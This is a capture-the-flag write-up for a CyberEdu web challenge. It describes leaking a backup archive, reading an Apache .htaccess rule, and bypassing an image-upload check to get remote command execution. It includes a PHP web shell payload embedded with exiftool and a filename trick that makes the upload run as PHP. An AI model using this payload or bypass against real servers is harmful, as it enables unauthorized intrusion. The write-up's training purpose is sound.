# Write-up: 
##  evil-admin

**Category:** Web
**Platform:** CyberEdu
**URL:** `https://app.cyber-edu.co/challenges/55e47d60-7f21-11ea-819d-2f18e6c80556`

---

On the main page there is a form to upload an image.
I tested the functionality by uploading a regular .png file; the server saves my image in `/resize/somehash/` and it's resized.



It looks like I can't upload .php to gain a web shell. Let's intercept the request in burp and see how is the server filtering the uploaded file:



Even if I keep the MIME type as image/png and the file content, but change the filename to something.php, the server does not let us upload our file:



I tried various methods to upload my php file, asa polyglot phile(shell.php.png) and other tricks but I didn't find anything. 

I did some fuzzing and got the `backup` endpoint: 



The "PK" header => the magic byte for zip files signature. Let's extract the archive: 

``` py
import requests

url = "http://35.242.200.20:32038/backup/"

r = requests.get(url)

with open("arch.zip", "wb") as g:
    g.write(r.content)
```



`.htaccess` is the configuration file used by the challenge's server(Apache)
If we take a look inside we see besides the trollface:



This rules tells the server that if it sees a filename that ends with `. `, execute it as a PHP script.
This will help us a lot.

We also have the upload.php logic:




So the server accepts filenames ending with `.jpg` `.png` but also with a space. So there is the connection with .htaccess .

If I upload a file and change its name from X to `name. `, the server will treat the file as a PHP script and execute it.

Also there is this sanitization `$check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);`.
We can easily bypass this php filter check by injecting some php code inside a valid .jpg
In order to do this, I'll use exiftool:

`exiftool -Comment="<?php echo '<pre>'; system(\$_GET['cmd']); echo '</pre>'; ?>" small.jpg`

I intercepted the request and changed the filename from `small.jpg` to `tudor. `:





We got our entry! Now let's take a look around and find our flag.
Since we know the uploaded file is in /resize/dirname/, I ll go up in hierarchy twice and list the files(with url encoded commands of course):



There it is the flag!

